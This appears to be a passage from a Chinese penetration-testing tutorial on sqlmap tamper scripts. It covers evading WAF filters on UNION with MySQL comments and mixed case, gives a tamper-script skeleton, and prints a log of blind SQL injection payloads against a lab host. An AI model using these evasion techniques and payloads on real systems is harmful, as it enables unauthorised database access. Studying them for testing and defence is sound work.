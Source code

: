 假设我有一个MySQL数据库的注入点，WAF检测`UNION`关键字如果有空格，就会被当作一个SQL攻击请求，从而把你给拦截了。
那么真的就没有办法了吗？

在MySQL语句中，我们可以通过`/*!UNION*/`或者`/**/UNION/**/` Agian or `UniOn`....都可以正常执行，前提是你必须了解各个数据库的特性。
就拿MySQL来说，它不区分大小写，那么我们传递的值有时候也可以通过大小写混淆的方式去绕过检测。

> 这些思路都是根据一个个基础知识通过构思、一个想法而产生的，然后再通过动手去实践想法，得出结论，最后产生“姿势”。 
> 你不缺乏想象力，你只是基础知识太弱。      - 倾旋

那么说了这么多，其实可以总结出：调用Tamper的条件就是必须能保证我们的SQL执行后与我们的期望结果相同。
意思也就是要满足数据库能够正常运行SQL(排除报错注入)。

## 0x02 Tamper简单结构概述

```py
#!/usr/bin/env python

"""
Copyright (c) 2006-2016 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW # 当前脚本调用优先等级

def dependencies(): # 声明当前脚本适用/不适用的范围，可以为空。
    pass

def tamper(payload, **kwargs): # 用于篡改Payload、以及请求头的主要函数
    return payload
```

今天主要来讲tamper这个函数，总共两个参数。

`payload`主要是传递过来的是每个检测SQL注入的Payload，建议读者先找一个注入点测试并添加上`-v 3`参数，查看Payload体验一下。

> SQL Injection:http://192.168.1.149/sqli/example1.php?name=root

部分日志：

```
[14:00:27] [PAYLOAD] 5444
[14:00:27] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:27] [INFO] confirming that GET parameter 'name' is dynamic
[14:00:27] [PAYLOAD] 6230
[14:00:27] [INFO] GET parameter 'name' is dynamic
[14:00:27] [PAYLOAD] root),)."")','
[14:00:27] [WARNING] heuristic (basic) test shows that GET parameter 'name' might not be injectable
[14:00:27] [PAYLOAD] root'jQBnEm<'">IXWAcV
[14:00:27] [INFO] testing for SQL injection on GET parameter 'name'
[14:00:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:00:28] [PAYLOAD] root) AND 1494=5040 AND (7286=7286
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:28] [PAYLOAD] root) AND 6033=6033 AND (6260=6260
[14:00:28] [PAYLOAD] root AND 9786=3346
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:28] [PAYLOAD] root AND 6033=6033
[14:00:28] [PAYLOAD] root') AND 7485=8545 AND ('IUCd'='IUCd
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.634
[14:00:28] [PAYLOAD] root') AND 6033=6033 AND ('qlLE'='qlLE
[14:00:28] [PAYLOAD] root' AND 5621=6946 AND 'OKld'='OKld
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:28] [PAYLOAD] root' AND 6033=6033 AND 'HFDv'='HFDv
[14:00:28] [PAYLOAD] root' AND 9642=7321 AND 'reXb'='reXb
```
我们此时站在自动化检测工具的角度去分析这个注入点
